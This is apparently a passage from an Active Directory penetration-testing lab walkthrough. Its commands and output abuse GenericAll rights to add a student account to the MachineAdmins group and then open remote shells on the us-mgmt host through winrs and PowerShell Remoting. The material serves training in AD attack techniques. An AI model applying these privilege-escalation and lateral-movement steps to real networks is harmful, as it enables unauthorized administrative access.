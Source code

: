 Let's add `studentuser51` to `machineadmins` group as we have GenericAll permissions on the group.

**AD Module**

```
PS C:\AD\Tools> Add-ADGroupMember -Identity MachineAdmins -Members studentuser51 -Verbose

VERBOSE: Performing the operation "Set" on target "CN=MachineAdmins,OU=Mgmt,DC=us,DC=techcorp,DC=local".
```

```
PS C:\AD\Tools> Get-ADGroupMember -Identity "MachineAdmins" -Recursive

distinguishedName : CN=studentuser51,CN=Users,DC=us,DC=techcorp,DC=local
name              : studentuser51 👤
objectClass       : user
objectGUID        : 2765d147-caa0-4573-af7c-dd1c1b27ab57
SamAccountName    : studentuser51
SID               : S-1-5-21-210670787-2521448726-163245708-19121
```

Now, check if we have administrative access to the `us-mgmt` machine in the `Mgmt` OU (it is the only machine in that OU).

Note that we need to clear our existing TGT so that the new group membership is assigned in the new TGT. So, a logoff and logon may be required.

We can use winrs for accessing `us-mgmt`.

```
PS C:\Users\studentuser51> winrs -r:us-mgmt cmd

Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\studentuser51>
🚀

C:\Users\studentuser51> set username
USERNAME=studentuser51 👤

C:\Users\studentuser51> set computername
COMPUTERNAME=US-MGMT 🖥️
```

We can also try with PowerShell Remoting.
Note that it will have verbose logging on the remote machine.

```
PS C:\Users\studentuser51> $usmgmt = New-PSSession us-mgmt
PS C:\Users\studentuser51> Enter-PSSession $usmgmt

[us-mgmt]: PS C:\Users\studentuser51\Documents> $env:username
studentuser51 👤

[us-mgmt]: PS C:\Users\TEMP\Documents> $env:computername
US-MGMT 🖥️
```
